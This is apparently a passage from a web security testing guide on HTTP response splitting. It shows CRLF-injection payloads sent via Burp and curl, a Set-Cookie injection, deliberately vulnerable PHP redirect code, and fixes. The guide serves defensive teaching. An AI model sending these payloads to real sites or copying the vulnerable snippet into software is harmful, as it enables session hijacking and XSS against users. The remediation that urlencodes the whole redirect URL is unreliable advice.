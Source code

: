 **Tip**: Save the endpoint list in a report.

### 2. Test for HTTP Response Splitting

**Objective**: Verify if user input can inject additional HTTP responses.

**Steps**:
1. Identify header inputs:
   - Look for parameters in redirects or cookies (e.g., `?redir=/home`).
2. Inject splitting payloads:
   - Use Burp Repeater:
     ```http
     GET /redirect?redir=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<html>malicious</html> HTTP/1.1
     Host: example.com
     ```
   - Use cURL:
     ```bash
     curl -i "http://example.com/redirect?redir=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<html>malicious</html>"
     ```
3. Check responses:
   - Look for two HTTP responses or injected HTML.
   - Test: `%0d%0aSet-Cookie:%20session=malicious`.
4. Verify impact:
   - Check for XSS or session hijacking.

**Example Vulnerable Code (PHP)**:
```php
$redir = $_GET['redir'];
header("Location: $redir");
```
Test: `?redir=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script>`
Result: Injects malicious response.

**Example Secure Code (PHP)**:
```php
$redir = preg_replace('/[\r\n]/', '', $_GET['redir']);
if (filter_var($redir, FILTER_VALIDATE_URL)) {
    header("Location: $redir");
} else {
    die("Invalid redirect");
}
```
Test: No injection.

**Remediation**:
- Remove CR/LF characters:
  ```php
  $redir = str_replace(["\r", "\n"], "", $redir);
  ```
- Use safe header functions:
  ```php
  header("Location: " . urlencode($redir));
  ```
